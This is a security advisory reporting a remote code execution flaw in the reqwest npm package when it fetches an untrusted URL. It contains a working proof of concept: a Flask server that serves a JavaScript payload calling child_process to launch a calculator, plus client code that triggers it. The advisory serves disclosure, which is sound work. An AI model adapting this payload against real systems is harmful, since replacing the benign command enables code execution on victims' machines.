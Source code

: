```yaml
---
title: Remote code execution vulnerability in reqwest
date: 2021-04-26
tags:
	- "node"
	- "nodejs"
	- "javascript"
	- "npm"
	- "rce"
advisory: true
origin: https://advisory.checkmarx.net/advisory/CX-2021-4778/
cves:
---
```

## Summary
Affected versions of `reqwest` npm package are vulnerable to remote code execution vulnerability when requesting a malicious URL.

## Product
All versions of reqwest npm package.

## Impact
This issue may lead to remote code execution if the URL fetched is untrusted input.

## Steps to reproduce
1. Run the following server:

```py
from flask import Flask, Response
app = Flask(__name__)
 
 
@app.route('/')
def hello():
    resp = Response("Foo bar baz")
    resp.data = 'require("child_process").exec("calc")'
    resp.headers["Content-Type"] = "javascript"
    return resp
    
 
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5555, debug=True)
```

2. Make a get request to the server:

```js
var reqwest = require('reqwest')
reqwest({
    url: 'http://localhost:5555/'
  , method: 'get'
  , success: function (resp) {
      qwery('#content').html(resp)
    }
})
```

### Expected result:
A calculator will pop up on the server.

## Remediation
Currently there is no fix version released.

## Credit
This issue was discovered and reported by Checkmarx SCA Security Researcher [Yaniv Nizry](https://www.twitter.com/ynizry).

## Resources
1. [reqwest npm repository](https://www.npmjs.com/package/reqwest)

